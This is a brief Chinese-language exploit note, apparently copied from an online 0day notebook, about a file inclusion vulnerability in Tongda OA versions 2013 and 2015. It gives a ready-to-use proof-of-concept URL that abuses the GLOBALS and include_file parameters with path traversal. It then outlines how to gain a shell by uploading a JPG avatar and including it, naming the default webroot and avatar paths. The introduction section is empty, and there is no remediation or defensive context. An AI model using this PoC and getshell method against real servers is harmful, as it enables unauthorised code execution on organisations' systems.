

# 通达 oa 文件包含漏洞

> 原文：[http://book.iwonder.run/0day/通达 oa/6.html](http://book.iwonder.run/0day/通达 oa/6.html)

## 一、漏洞简介

## 二、漏洞影响

2013、2015 版本

## 三、复现过程

poc

```
http://0-sec.org/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js 
```

通常情况下，在控制⾯板中上传⼀个 jpg 头像，然后利用该⻚面的⽂件包含 getshell。通达 OA 网站的根⽬录 一般在 D:\MYOA\webroot 中,头像附件一般在 D:\MYOA\webroot\attachment\avatar\XXX.jpg



